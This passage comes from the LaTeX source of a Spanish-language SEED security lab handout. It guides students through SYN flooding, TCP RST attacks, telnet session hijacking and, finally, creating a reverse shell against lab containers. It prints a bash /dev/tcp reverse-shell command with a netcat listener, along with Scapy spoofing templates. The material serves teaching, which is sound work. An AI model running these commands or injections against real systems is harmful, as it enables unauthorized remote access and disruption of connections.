En Ubuntu 20.04, si una Máquina X nunca se ha conectado a la máquina víctima, cuando se lance el ataque de SYN Flooding la Máquina X no podrá hacer telnet en la máquina víctima. Sin embargo, si antes del ataque, la Máquina X ha hecho un telnet (o una conexión TCP) a la máquina víctima, entonces X pareciera ser ``immune'' al ataque de SYN Flooding y podrá conectarse por telnet en la máquina víctima. Daría la idea que la máquina víctima recuerda las conexiones exitosas que fueron hechas por la Máquina X en el pasado y usa esta especie de memoria cuando establece futuras conexiones con este cliente. Este tipo de comportamiento no existe en Ubuntu 16.04 y anteriores.

Esto es debido a una mitigación del kernel:
TCP reserva una cuarta parte de la cola de trabajos pendientes para ``destinos probados'' si las SYN Cookies están desactivadas. Después de realizar una conexión TCP de \texttt{10.9.0.6} hacia el servidor \texttt{10.9.0.5}, podemos ver que la dirección IP \texttt{10.9.0.6} es recordada (cacheada) por el servidor, por lo que usarán los slots reservados cuando las conexiones provienen de ellos, y por lo tanto no serán afectados por el ataque de SYN Flooding.
Para eliminar los efectos de esta mitigación, podemos ejecutar el comando \texttt{"ip tcp\_metrics flush"} en el servidor.

\begin{lstlisting}
# ip tcp_metrics show
10.9.0.6 age 140.552sec cwnd 10 rtt 79us rttvar 40us source 10.9.0.5

# ip tcp_metrics flush
\end{lstlisting}


\paragraph{Nota B: Paquetes RST.} 
Si está realizando esta Tarea usando dos Máquinas Virtuales es decir lanzando los ataques de una Máquina Virtual a otra, en lugar de usar los contenedores, notará en Wireshark la presencia de paquetes RST (reset). Inicialmente pensamos que estos paquetes eran generados por el recipiente del paquete SYN+ACK, pero en realidad son generados por el servidor NAT en nuestra configuración.

El tráfico saliente de la Máquina Virtual en nuestro laboratorio pasará por un servidor NAT provisto por VirtualBox. Para TCP, NAT se encarga de crear las llamadas entradas de address traslation que están basadas en paquetes SYN.
En nuestro ataque, los paquetes SYN que son generados por el atacante no pasan por el NAT (tanto el atacante como la víctima están detrás del servidor NAT), por lo tanto estas entradas no son creadas. Cuando la víctima envía un paquete SYN+ACK a la dirección IP de origen (que es generada de forma aleatoria por el atacante), este paquete irá a través de NAT, pero NAT no sabe que hacer dado que no hay una entrada previa para esta conexión TCP por lo tanto terminará enviando un paquete TCP RST a la máquina víctima.

Los paquetes RST hacen que la víctima borre datos de la cola de half-open connection. Entonces mientras nosotros como atacantes tratamos de saturar esta cola con el ataque, VirtualBox ayuda a la víctima a borrar todos los registros de nuestros paquetes de la cola. Convirtiéndose así en una competencia entre nuestro código y VirtualBox.



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Tarea 1.2: Lanzando el ataque usando C} 

Exceptuando el problema de la cache TCP, el resto de los inconvenientes mencionados en la Tarea 1.1 pueden ser resuletos si podemos enviar paquetes SYN spoofeados de forma rápida. Podemos lograrlo usando C. Hemos provisto un programa hecho en C llamado \texttt{synflood.c} este archivo se encuentra dentro del directorio del laboratorio. Por favor compile el programa en la Máquina Virtual y lance el ataque en la máquina vícttima.

\begin{lstlisting}
// Compile the code on the host VM
$ gcc -o synflood synflood.c

// Launch the attack from the attacker container
# synflood 10.9.0.5 23
\end{lstlisting}

Antes de lanzar el ataque, por favor restaure el tamaño de la cola a su tamaño original. Por favor compare los resultados de este ataque con los que ha hecho usando el programa de Python y explique las diferencias entre ambos programas de ataque.  


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Tarea 1.3: Activar la Contramedida de SYN Cookie}

Por favor active la protección SYN cookie, corra sus ataques nuevamente y compare los resultados. 


% *******************************************
% SECTION
% *******************************************
\section {Tarea 2: Ataque TCP RST en Conexiones \texttt{telnet}}

El Ataque TCP RST puede terminar una conexión TCP establecida entre dos víctimas. Por ejemplo, si hay una conexión TCP \telnet establecida entre dos usuarios, usuario A y usuario B, los atacantes pueden spoofear un paquete RST desde A hacia B, rompiendo la conexión establecida entre ellos. Para que este ataque funcione, el paquete TCP RST de ataque deben de ser construido de forma correcta.

En esta Tarea, tendrá que correr un ataque TCP RST desde una Máquina Virtual para romper la conexión \telnet establecida entre A y B, que serán los contenedores. Para simplificar el laboratorio, asumimos que el atacante y la víctima están en la misma LAN es decir el atacante puede observar el tráfico TCP entre A y B.


\paragraph{Lanzando el ataque manualmente.} 
Por favor use Scapy para conducir el ataque TCP RST.
A continuación se provee un código base. Necesita reempalazar cada entrada que contenga \texttt{@@@@} con el valor actual que es obtenido usando Wireshark.

\begin{lstlisting}
#!/usr/bin/env python3
from scapy.all import *

ip  = IP(src="@@@@", dst="@@@@")
tcp = TCP(sport=@@@@, dport=@@@@, flags="@@@@", seq=@@@@, ack=@@@@)
pkt = ip/tcp
ls(pkt)
send(pkt,verbose=0)
\end{lstlisting}

\paragraph{Opcional: Lanzando el ataque automáticamente.} 
Se alienta a los estudiantes a que escriban un programa que lance el ataque de forma automática usando las técnicas de sniffing y spoofing. Al contrario del ataque manual, en este ataque automatizado se obtendrán los parametros a completar de los paquetes que son sniffeados.
Por favor no olvide que al usar la funcion \texttt{sniff} de Scapy debe establecer el valor argumento \texttt{iface}.

 

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\begin{comment}
% We comment out  this task, because it does not work any more.
% It seems that the video streaming client will reconnect to the server
% if the connection is broken. We haven't figured out a solution yet.
%
% My fugure plan:
%    I would like to use container to host our own streeming service.
%    Then we can launch the RST attack on the server. 
%    

% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection {Tarea 3: Ataques TCP RST en Aplicaciones Streaming de Video}

Vamos a hacer que nuestro ataque TCP RST sea más interesante experimentado con aplicaciones que son bastantes populares hoy en día. 
Para esto, hemos elegido una aplicación de streaming de video. En esta Tarea puede elejir un sitio web de streaming cualquiera (el que esté mas familiarizado). La mayoría de estos sitios establecen una conexión TCP con sus clientes para hacer el streaming de su contenido. El objetivo del atacante es disrumpir el la sesión TCP establecida entre la víctima y el servidor de streaming. Para simplificar el laboratorio, asumimos que el atacante y el usuario víctima están en la misma LAN. A continuación describimos el flujo de interacción standard entre un usuario (víctima) y el sitio de video streaming:

\begin{itemize}
\item El usuario víctima busca un determinado video en el sitio y lo elije para el streaming.

\item Por lo general el contenido del video está hosteado en una máquina diferente, donde todo el contenido es ubicado. Después de que la víctima selecciona el video se establecerá una sesión TCP entre el usuario víctima y el servidor de contenidos que hara el streaming del video. Por último la víctima podrá ver el video seleccionado.
\end{itemize}

Su Tarea es hacer una disrupción en el streaming de video, rompiendo la conexión TCP entre el usuario víctima y el servidor de contenidos. Puede dejar que el usuario víctima navegue por el sitio de streaing desde otra máquina virtual o desde la misma máquina virtual como el atacante. Tenga en cuenta que, para evitar problemas de responsabilidad, cualquier paquete de ataque debe ser envíado
a la máquina víctima (que es la máquina que ud. maneja)y no a la máquina del servidor de contenido (que no es de su pertenencia).

\end{comment}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

            


% *******************************************
% SECTION
% *******************************************
\section{Tarea 3: TCP Session Hijacking}



\begin{figure}[htb]
  \begin{center}
    
\includegraphics[width=0.8\textwidth]{\tcpFigs/TCP_Session_Hijacking.pdf}
  \end{center}
  \caption{Ataque de TCP Session Hijacking}
  \label{tcp:fig:hijacking}
\end{figure}
 
El objetivo de un ataque de TCP Session Hijacking es poder "secuestrar" o "piratear" una conexión TCP existente (sesión) entre dos víctimas por medio de la inyección de contenido maliciosoo dentro de la sesión. Si esta conexión es una sesión de \telnet, los atacantes pueden inyectar comandos maliciosos (por ejemplo: borrar un archivo importante) dentro de la sesión, provocando que la víctima los ejecute de forma no intencional. La Figura \ref{tcp:fig:hijacking} muestra el funcionamiento de este ataque.
En esta Tarea, necesitará demostrar como puede realizar este ataque de hijacking en una sesión de una conexión \texttt{telnet} entre dos computadoras. Su objetivo es hacer que el servidor \texttt{telnet} logre ejecutar el comando malicioso que ud. elija.
Para simplificar el laboratorio, asumimos que la máquina del atacante y la máquina de la víctima están en la misma LAN.


\paragraph{Lanzando el ataque manualmente.}
Por favor use Scapy para conducir el ataque TCP Session Hijacking.
A continuación se provee un código base. Necesita reempalazar cada entrada que contenga \texttt{@@@@} con el valor actual que es obtenido usando Wireshark.

\begin{lstlisting}
#!/usr/bin/env python3
from scapy.all import *

ip  = IP(src="@@@@", dst="@@@@")
tcp = TCP(sport=@@@@, dport=@@@@, flags="@@@@", seq=@@@@, ack=@@@@)
data = "@@@@"
pkt = ip/tcp/data
ls(pkt)
send(pkt,verbose=0)
\end{lstlisting}


\paragraph{Opcional: Lanzando el ataque de forma automática.}
Se alienta a los estudiantes a que escriban un programa que lance el ataque de forma automática usando las técnicas de sniffing y spoofing. Al contrario del ataque manual, en este ataque automatizado se obtendrán los parametros a completar de los paquetes que son sniffeados.
Por favor no olvide que al usar la funcion \texttt{sniff} de Scapy debe establecer el valor argumento \texttt{iface}.





% *******************************************
% SECTION
% *******************************************
\section{Tarea 4: Crear una Shell Reversa usando TCP Session Hijacking}

Cuando los atacantes inyectan un comando en la máquina de la víctima usando
TCP Session Hijacking, no están interesados en ejecutar un simple
comando en la máquina víctima; están interesados en ejecutar muchos
comandos. Obviamente, ejecutar estos comandos durante el ataque de TCP Session Hijacking es un inconveniente. El objetivo del atacante es usar este
ataque para implantar un backdoor que persista en la máquina víctima y así utilizarlo en ataques futuros.

La forma más típica de implante de backdoors se realiza a través de una shell reversa que es ejecutada en la máquina víctima, esto le da al atacante acceso shell hacia esta máquina.
Una shell reversa es un proceso shell corriendo en una máquina remota y que la conecta con la máquina del atacante. Esto le da acceso persistente a un atacante en una máquina que fue comprometida.

A continuación, mostraremos como son los pasos para setear una shell reversa, siempre y cuando podamos ejecutar comandos en la máquina de la víctima.
En el ataque de TCP session hijacking, el atacante no puede ejecutar comandos de forma directa en la máquina de la víctima, por lo tanto su tarea es lanzar un comando que dispare una shell reversa.
En esta Tarea, los estudiantes deberán de mostrar como lograr este objetivo.

Para hacer que una shell \texttt{bash} de una máquina remota conecte con la máquina del atacante, el atacante necesita que haya un proceso en el sistema que este a la espera de una conexión entrante en un determinado puerto. En este ejemplo usaremos \texttt{netcat}. Este programa nos permite establecer un puerto de escucha para una conexión entrante.
En la demostración que sigue, se muestran dos ventanas, cada una pertenece a una máquina diferente. La ventana que está arriba de todo es la máquina del atacante \texttt{10.9.0.1}, que ejecuta \texttt{netcat} (\texttt{nc} abreviado) y queda a la escucha en el puerto \texttt{9090}. La ventana de abajo es la máquina de la víctima \texttt{10.9.0.5} y ejecuta el comando para lanzar una shell reversa.
Al ejecutarse este comando, se observa como en la ventana de la máquina del atacante se establece la shell reversa que está corriendo en \texttt{10.9.0.5}.  

\begin{minipage}{\linewidth}
\begin{lstlisting}[backgroundcolor=]
           +---------------------------------------------------+ 
           | (*@\textbf{On 10.9.0.1 (attcker)}@*)                             |
           |                                                   | 
           | $ nc -lnv 9090                                    |  
           | Listening on 0.0.0.0 9090                         |  
           | Connection received on 10.9.0.5 49382             |  
           | $   <--+ (*@\textbf{This shell runs on 10.9.0.5}@*)              | 
           |                                                   |  
           +---------------------------------------------------+  
          
           +---------------------------------------------------+  
           | (*@\textbf{On 10.9.0.5 (victim)}@*)                              |
           |                                                   | 
           |$ /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1  | 
           |                                                   | 
           +---------------------------------------------------+
\end{lstlisting}
\end{minipage}

A continuación se explica de forma sintética los comandos utilizados para la creación de la shell reversa.
Para una explicación mas en profundida puede consultar el libro de SEED.


\begin{itemize}
\item \texttt{"/bin/bash -i"}: El parámetro \texttt{i} es quiere decir que la shell será una shell interactiva, esto significa que nos permitirá interactuar para enviar y recibir información usando la shell.

\item \texttt{"> /dev/tcp/10.9.0.1/9090"}: Esto hace que el (\texttt{stdout}) (standard output) de la shell sea redirigido hacia la conexión TCP establecida con la IP del atacante \texttt{10.9.0.1} en el puerto \texttt{stdout} es el  \texttt{9090}. En sistemas \unix, el número del descriptor de archivo (file descriptor) del \texttt{stdout} es el \texttt{1}

\item \texttt{"0<\&1"}: El descriptor de archivo (file descriptor) cuyo número es \texttt{0} representa el standard input (\texttt{stdin}). Esta opción le indica al sistema que use el standard output como standard input.
Dado que el \texttt{stdout} está siendo redirigido hacia una conexión TCP, esta opción le indica al programa shell que obtendrá su entrada usando la misma conexión.

\item \texttt{"2>\&1"}: El descriptor de archivo (file descriptor) cuyo número es cuyo número es \texttt{2} representa el standard error \texttt{stderr}.
Esto hace que cualquier error que pueda ocurrir sea redirigido al \texttt{stdout} que es la conexión TCP.
\end{itemize}


Para concluir, el comando  \texttt{"/bin/bash -i > /dev/tcp/10.9.0./9090 0<\&1 2>\&1"}  ejecuta una shell \texttt{bash} en la máquina del servidor cuyo input viene de una conexión TCP y su output sale por la misma conexión TCP.

En la demostración anterior cuando el comando \texttt{bash} es ejecutado en el servidor \texttt{10.9.0.5} este establecerá una conexión reversa hacia  \texttt{10.9.0.1} que tendrá corriendo un proceso \texttt{netcat}. Esto puede ser verificado por medio del mensaje \texttt{"Connection received on 10.9.0.5"} mostrado en \texttt{netcat}.

La descripción anterior muestra como se puede configurar una shell reversa si se tiene acceso a la máquina víctima, que en nuestro caso es el servidor \texttt{telnet}, pero en esta tarea ud. no cuenta con tal acceso. Su objetivo es lanzar un ataque de TCP session hijacking entre el usuario y el servidor \texttt{telnet} y inyectar su comando malicioso dentro de esta sesión, logrando así obtener una shell reversa en el servidor.




% *******************************************
% SECTION
% ******************************************* 
\section{Submission}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

Debe enviar un informe de laboratorio detallado, con capturas de pantalla, para describir lo que ha hecho y lo que ha observado.
También debe proporcionar una explicación a las observaciones que sean interesantes o sorprendentes.
Enumere también los fragmentos de código más importantes seguidos de una explicación. No recibirán créditos aquellos fragmentos de códigos que no sean explicados.
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% *******************************************
% SECTION
% *******************************************
\section*{Agradecimientos}

Este documento ha sido traducido al Español por Facundo Fontana



\end{document}
